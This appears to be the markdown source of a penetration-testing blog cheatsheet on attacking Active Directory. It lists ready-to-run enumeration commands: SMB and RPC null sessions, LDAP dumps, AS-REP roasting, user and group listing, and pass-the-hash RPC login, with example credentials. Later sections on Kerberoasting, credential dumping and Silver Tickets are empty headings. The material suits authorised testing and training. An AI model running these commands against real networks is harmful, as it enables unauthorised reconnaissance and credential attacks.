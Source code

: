 ```yaml
---
layout: post
title:  Attacking Active Directory Cheatsheet
description: Cheatsheet for Attacking Active Directory
date:   2024-11-01 01:00:00 +0300
image:  '/images/10000.jpg'
tags:   [Cheatsheets, Tools, Active-Directory, Active-Directory-Enumeration, SMB, Kerberoasting, AS-REP-Roasting, DCSync, Silver-Ticket, ACLs, MSSQL, Credential-Dumping, Credential-Hunting]
---
```

### Uncredentialed Enumeration and Attacks
```shell
# DNS Zone Transfer
dig @172.16.150.10 AXFR vorkharium.com

# LDAP Anonymous Session Dump
ldapsearch -x -H ldap://172.16.150.10 -b "dc=vorkharium,dc=com"

# No-PreAuth Kerberos without Username
impacket-GetNPUsers vorkharium.com/ -dc-ip 172.16.150.10

# SMB Null Session with smbclient
smbclient -L 172.16.150.10 -N
smbclient -N -L //172.16.150.10
smbclient --no-pass -L //172.16.150.10
smbclient //172.16.150.10/Public -N
smbclient -U '%' -N \\\\172.16.150.10\\Public

# SMB Null Session with other tools
smbmap -H 172.16.150.10 -P 445
nxc smb 172.16.150.10 --shares -u 'guest' -p ''
crackmapexec smb 172.16.150.10 -u '' -p '' --shares
impacket-smbclient vorkharium.com/'':''@172.16.150.10

# RPC Null Session
rpcclient 172.16.150.10 -N
rpcclient -U "" -N 172.16.150.10
rpcclient -U="" 172.16.150.10

# RPC Commands
querydispinfo
enumdomusers
enumdomgroups
queryuser johnwick

# Command to get users and put them in users_rpc.txt
rpcclient -U "" 172.16.150.10 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users_rpc.txt

# impacket-rpcdump
impacket-rpcdump -port 135 vorkharium.com/'':''@172.16.150.10

# enum4linux
enum4linux -U 172.16.150.10

```
### Domain Password Policy Enumeration
```shell
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u 'vivi' -p 'Thundaga2000' --pass-pol
crackmapexec smb 172.16.150.10 -u 'tidus' -p 'ToZanarkand2001' --pass-pol

# enum4linux
enum4linux -U 172.16.150.10 # Without credentials
enum4linux -u john -p 'Password123!' -U 172.16.150.10

# CMD and PowerShell
net accounts
net user john /domain

# PowerShell (Some require AD Module to be installed)
Get-ADDefaultDomainPasswordPolicy
(Get-ADDomain).DefaultPasswordPolicy
Get-WmiObject -Class Win32_NetworkLoginProfile | Select-Object -Property Name, PasswordExpirationDate
```
### Domain Users Enumeration
```shell
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u john -p 'Password123!' --users
crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --users

# With impacket-GetADUsers
impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/john:'Password123!'

# My custom way of creating a domain_users.txt list with one command
impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/john:'Password123!' | awk 'NR>3 {print $1}' >> domain_users.txt

# LDAP
ldapsearch -x -H ldap://172.16.150.10 -D "john@vorkharium.com" -w 'Password123!' -b "dc=vorkharium,dc=com" "(objectClass=user)" sAMAccountName

# RPC
rpcclient -U 'john%Password123!' 172.16.150.10 -c "enumdomusers"

# enum4linux
enum4linux -u john -p 'Password123!' 172.16.150.10

# PowerView.ps1
Import-Module .\PowerView.ps1
Get-NetUser

# PowerShell (AD Module)
Get-ADUser -Filter * -Property SamAccountName
Get-ADUser -Filter * -Server 172.16.150.10 -Property SamAccountName

```
### Groups Enumeration
```shell
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u john -p 'Password123!' --groups
crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --groups

# CMD and PowerShell
# Domain groups
net group /domain
net group "Domain Admins" /domain # Specifying a domain group

# Local groups
net localgroup
net localgroup Administrators

# Current User groups
whoami /groups

# PowerShell (Some require AD Module to be installed)
Get-ADGroup -Filter *
Get-ADGroup -Filter *
Get-ADGroupMember -Identity "Administrators"
Get-WmiObject -Class Win32_Group | Select-Object Name, Domain
Get-WmiObject -Class Win32_Group -ComputerName 172.16.150.10

# PowerShell Local Groups
Get-LocalGroup
Get-LocalGroupMember -Group "Administrators"
```
### SMB Shares Credentialed Access and Enumeration
```shell
# Enumeration
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u john -p 'Password123!' --shares
crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --shares

# CMD and PowerShell
net view \\172.16.150.10

# enum4linux
enum4linux -S 172.16.150.10

# Connection
smbclient //172.16.150.10/Public -U john
impacket-smbclient vorkharium.com/john:'Password123!'@172.16.150.10

```
### RPC Credentialed Access and Enumeration
```shell
rpcclient -U "username%password" 172.16.150.10
# Using hash
rpcclient //172.16.150.10 -U vorkharium.com/john%1a06b4248879e68a498d3bac51bf91c9 --pw-nt-hash

# All RPC Queries
srvinfo
enumdomusers # Users
enumpriv # Works like "whoami /priv"
queryuser <user> # Detailed user info
getuserdompwinfo <RID> # Password Policy, use the previous command "queryuser" to get the RID to run this command
lookupnames <user> # SID of specified user
createdomuser <username> # Create a new user
deletedomuser <username> # Delete user
enumdomains
enumdomgroups
querygroup <group-RID> # Use the previous command "enumdomgroups" to get the RID to run this command
querydispinfo # Show description of all users
netshareenum # Enumerate Shares (This will only work if the current user we used to log in has permissions)
netshareenumall
lsaenumsid # SID from all users
```
### GPO cPassword
```shell

```
### Password Spraying
```shell

```
### Local PowerShell Enumeration
```shell

```
### Local Credential Hunting
```shell

```
### Runas and RunasCs.exe
```shell

```
### BloodHound, SharpHound.exe, bloodhound-python
```shell

```
### PowerView.ps1
```shell

```
### Impacket PsExec, WmiExec and SMBExec - SMB Shell Access with Password or Pass-the-Hash
```shell

```
### Evil-WinRM - Access WinRM with Password or Pass-the-Hash
```shell

```
### xfreerdp - Access RDP with Password or Pass-the-Hash
```shell

```
### Kerberoasting with Impacket
```shell

```
### Kerberoasting with Rubeus.exe
```shell

```
### AS-REP Roasting with Impacket
```shell

```
### Remote Credential Dumping with Impacket and NetExec
```shell

```
### Local Credential Dumping with Mimikatz and Impacket
```shell

```
### Silver Ticket
```shell

```
### ACLs
```shell

```
### MSSQL to gain Shell
```shell

```
